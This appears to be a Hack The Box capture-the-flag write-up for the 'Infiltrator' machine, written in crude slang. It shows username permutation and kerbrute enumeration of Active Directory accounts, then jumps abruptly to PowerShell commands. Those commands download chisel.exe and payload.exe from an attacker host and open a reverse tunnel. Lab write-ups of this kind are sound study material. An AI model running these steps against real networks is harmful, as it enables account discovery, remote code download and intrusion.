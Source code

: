 ## Enumeration
I ain’t wastin' time with your granddaddy’s nmap scan — nah, we already know this box be bustin’ that Active Directory life, so we skip the foreplay and go raw into **user enumeration**. First, we rip a list of names straight off the company site like it’s LinkedIn recon but with zero professionalism and maximum goblin energy (we be lootin').

```
David Anderson
Olivia Martinez
Kevin Turner
Amanda Walker
Marcus Harris
Lauren Clark
Ethan Rodriguez
```

Now we feed these names into `UsernameAnarchy` — a beautiful little gremlin of a tool that chews on names and vomits out 6,000 permutations of corporate identity theft.

```console
$ /username-anarchy/username-anarchy --input-file users.txt > probably_usernames.txt
```

And just like that, we got a whole buffet of usernames. Next up: **Kerbrute**, because what’s more fun than whispering sweet nothings to Kerberos and seeing who moans back?

```console
$ kerbrute userenum -d INFILTRATOR.HTB --dc 10.10.11.31 probably_usernames.txt -o valid_users
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/01/24 - Ronnie Flathers @ropnop

2024/09/01 09:45:32 >  Using KDC(s):
2024/09/01 09:45:32 >  10.10.11.31:88

2024/09/01 09:45:33 >  [+] VALID USERNAME:	 d.anderson@INFILTRATOR.HTB
2024/09/01 09:45:33 >  [+] VALID USERNAME:	 o.martinez@INFILTRATOR.HTB
2024/09/01 09:45:33 >  [+] VALID USERNAME:	 k.turner@INFILTRATOR.HTB
2024/09/01 09:45:33 >  [+] VALID USERNAME:	 a.walker@INFILTRATOR.HTB
2024/09/01 09:45:33 >  [+] VALID USERNAME:	 m.harris@INFILTRATOR.HTB
2024/09/01 09:45:33 >  [+] VALID USERNAME:	 e.rodriguez@INFILTRATOR.HTB
2024/09/01 09:45:33 >  [+] VALID USERNAME:	 l.clark@INFILTRATOR.HTB
```

Alright, we cracked the username code, and yeah, we could spam it with name lists like a desperate Tinder bot, but tossing in `j.smith-x98800.txt` was a total flop. So, we’re calling it: this is our final crew.

```
administrator@INFILTRATOR.HTB
d.anderson@INFILTRATOR.HTB
o.martinez@INFILTRATOR.HTB
k.turner@INFILTRATOR.HTB
a.walker@INFILTRATOR.HTB
m.harris@INFILTRATOR.HTB
e.rodriguez@INFILTRATOR.HTB
l.clark@INFILTRATOR.HTB
```


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe